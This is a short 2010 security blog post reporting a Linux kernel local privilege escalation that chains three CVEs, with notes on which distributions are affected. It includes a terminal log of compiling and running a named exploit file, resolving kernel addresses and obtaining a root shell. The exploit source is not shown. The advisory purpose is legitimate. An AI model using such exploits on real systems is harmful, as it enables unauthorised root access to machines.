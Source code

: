 ```yaml
---
layout: post
title: Linux Kernel <= 2.6.37 local privilege escalation
date: '2010-12-08T08:45:00.001+01:00'
author: Xavier Garcia
tags:
- escalation
- Linux
- privilege
modified_time: '2010-12-08T08:46:48.484+01:00'
blogger_id: tag:blogger.com,1999:blog-8534555958859253862.post-8260279256518032125
blogger_orig_url: http://www.shellguardians.com/2010/12/linux-kernel-2637-local-privilege.html
---
```

A new local privilege escalation has been discovered in the Linux kernel as reported in the [Full Disclosure](http://seclists.org/fulldisclosure/2010/Dec/85) mailing list.  
  
The exploit combines three different vulnerabilities to gain root privileges: CVE-2010-4258, CVE-2010-3849 and CVE-2010-3850.  

  

Affected systems
================

The Econet protocol (CVE-2010-3849) is not supported by default in RedHat like distributions (RHEL, CentOS and Fedora) and the majors distributions already patched CVE-2010-3849 and CVE-2010-3850, so up to date systems should not be affected by this particular exploit.  

  

CVE-2010-4258 is the main vulnerability and it is still unpatched. Somebody could find another way to trigger the vulnerability.

  
```bash
msk@ubuntu:~/exploit$ gcc  15704.c  -o foo

msk@ubuntu:~/exploit$ ./foo 

[*] Resolving kernel addresses...

 [+] Resolved econet_ioctl to 0xe08b72a0

 [+] Resolved econet_ops to 0xe08b73a0

 [+] Resolved commit_creds to 0xc016c830

 [+] Resolved prepare_kernel_cred to 0xc016cc80

[*] Calculating target...

[*] Triggering payload...

[*] Got root!

# id

uid=0(root) gid=0(root) groups=0(root)

#
```
